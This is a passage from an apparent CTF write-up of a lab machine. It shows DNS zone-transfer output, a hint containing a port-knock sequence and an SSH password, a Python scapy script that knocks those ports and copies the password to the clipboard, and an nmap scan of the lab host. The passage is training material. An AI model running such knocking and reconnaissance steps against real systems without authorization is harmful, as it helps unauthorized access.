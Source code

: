     RhodesColossus.ctfolympus.htb. 86400 IN TXT     "Here lies the great Colossus of Rhodes"
    www.ctfolympus.htb.     86400   IN      CNAME   ctfolympus.htb.
    ctfolympus.htb.         86400   IN      SOA     ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
    ;; Query time: 95 msec
    ;; SERVER: 10.10.10.83#53(10.10.10.83)
    ;; WHEN: Mon May 21 21:00:57 EDT 2018
    ;; XFR size: 15 records (messages 1, bytes 475)



### Port Knocking

The note in the zone transfer gives a hint at a way forward:
`prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!`

We noticed in the initial nmap that port 22 came back filtered. I'll
hypothesize that those three numbers are a clue for port knocking, and
they could open ssh. I'll also notice that the note was to prometheus
(username?), and that the last bit looks like a password.

Wrote a short script to knock, `open_portal_to_Hades.py`:



    #!/usr/bin/env python

    from scapy.all import *
    import pyperclip

    def SendSyn(ip, port):
        ip=IP(src="10.10.15.99", dst=ip)
        SYN=TCP(sport=7777, dport=port, flags="S", seq=12345)
        send(ip/SYN)

    ports = [3456, 8234, 62431]

    for port in ports:
        SendSyn("10.10.10.83", port)

    print("[+] Portal should be open.\nRun:\nssh prometheus@10.10.10.83\npassword: St34l_th3_F1re!")
    print("[*] Putting password on system clipboard. Ctrl + Shift + v to paste")
    pyperclip.copy('St34l_th3_F1re!\n')



To demonstrate the script, I'll start with an nmap showing ssh on 22
filtered:



    root@kali# nmap -p- -sT --min-rate 5000 10.10.10.83
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-21 21:15 EDT
    Nmap scan report for 10.10.10.83
    Host is up (0.095s latency).
    Not shown: 65531 closed ports
    PORT     STATE    SERVICE
    22/tcp   filtered ssh
    53/tcp   open     domain
    80/tcp   open     http
    2222/tcp open     EtherNetIP-1

